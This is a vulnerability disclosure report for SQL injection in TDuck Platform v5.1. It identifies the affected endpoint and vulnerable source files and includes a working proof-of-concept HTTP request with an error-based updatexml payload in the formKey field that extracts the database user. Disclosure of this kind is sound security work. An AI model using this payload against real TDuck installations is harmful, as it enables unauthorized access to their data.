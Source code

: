 

### 💥 Vulnerability Report : SQL Injection in **TDuck Platform v5.1**

------

**1. Product:**

- **Name:** TDuck Platform
- **Version:** Community Edition v5.1
- **Repository:** https://gitee.com/TDuckApp/tduck-platform  /  https://github.com/TDuckCloud/tduck-platform

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- `POST /user/form/data/download/file`

------

**4. Attack Vector(s):**

An u attacker can exploit the `formKey` parameter in the `/user/form/data/download/file` endpoint by injecting malicious SQL expressions. The backend uses the parameter in dynamic SQL construction without proper input sanitization or parameterized queries, leading to SQL injection.

------

**5. Proof of Concept (PoC):**

```
POST /user/form/data/download/file HTTP/1.1
Host: xxx
Content-Type: application/json
token: <valid_token>
Content-Length: 73

{"formKey": "' and updatexml(1,concat(0x7e,(select user()),0x7e),1)-- -"}
```

If vulnerable, the response will contain an error message such as:

![image-20250713102526807](./assets/image-20250713102526807.png)

This confirms that the SQL injection is successful and discloses database user information.



**6. Vulnerable Code Reference**

​	src/main/java/com/tduck/cloud/form/mapper/UserFormDataMapper.java

![image-20250713105512899](./assets/image-20250713105512899.png)

​	src/main/java/com/tduck/cloud/form/service/data/FormDataMysqlService.java

![image-20250713105616120](./assets/image-20250713105616120.png)

​	This code concatenates the `formKey` parameter received from the client (`request.getFormKey()`) directly into an SQL statement without any sanitization or use of parameterized queries. As a result, an attacker can inject arbitrary SQL code through the `formKey` parameter, leading to a SQL Injection vulnerability.



------

**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS

------

**8. References:**

- [Gitee Project Link](https://gitee.com/TDuckApp/tduck-platform)
- 